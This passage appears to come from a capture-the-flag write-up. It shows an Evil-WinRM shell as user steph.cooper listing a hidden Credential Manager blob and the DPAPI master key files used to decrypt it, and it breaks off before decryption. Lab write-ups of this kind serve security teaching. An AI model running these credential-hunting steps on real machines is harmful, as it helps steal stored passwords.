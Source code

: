 ```bash
        <attribute name="groupName" ldap-attribute="cn" />
        <attribute name="groupMember" ldap-attribute="member" />
    </group-attributes>
    <search-filter>
        <filter>(&(objectClass=person)(uid=%s))</filter>
    </search-filter>
</ldap-config>
```

## steph.cooper_adm

I got a shell as steph.cooper and found some encrypted credentials in `windows Credential Manager`, we can see a hidden credentials encrypted blob
```bash
*Evil-WinRM* PS C:\Users\steph.cooper\Documents> cd \Users\steph.cooper\appData\Roaming\Microsoft\Credentials
*Evil-WinRM* PS C:\Users\steph.cooper\appData\Roaming\Microsoft\Credentials> ls
Evil-WinRM* PS C:\Users\steph.cooper\appData\Roaming\Microsoft\Credentials> gci -force


    Directory: C:\Users\steph.cooper\appData\Roaming\Microsoft\Credentials


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-          3/8/2025   7:54 AM            414 C8D69EBE9A43E9DEBF6B5FBD48B521B9


*Evil-WinRM* PS C:\Users\steph.cooper\appData\Roaming\Microsoft\Credentials>

```

 we also find the master key to decrypt that blob
``` bash
*Evil-WinRM* PS C:\Users\steph.cooper\appData\Roaming\Microsoft\Credentials> cd ../Protect
*Evil-WinRM* PS C:\Users\steph.cooper\appData\Roaming\Microsoft\Protect> ls


    Directory: C:\Users\steph.cooper\appData\Roaming\Microsoft\Protect


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d---s-         2/23/2025   2:36 PM                S-1-5-21-1487982659-1829050783-2281216199-1107


*Evil-WinRM* PS C:\Users\steph.cooper\appData\Roaming\Microsoft\Protect> cd S-1-5-21-1487982659-1829050783-2281216199-1107
*Evil-WinRM* PS C:\Users\steph.cooper\appData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107> ls
*Evil-WinRM* PS C:\Users\steph.cooper\appData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107> gci -force


    Directory: C:\Users\steph.cooper\appData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-          3/8/2025   7:40 AM            740 556a2412-1275-4ccf-b721-e6a0b4f90407
-a-hs-         2/23/2025   2:36 PM             24 Preferred


```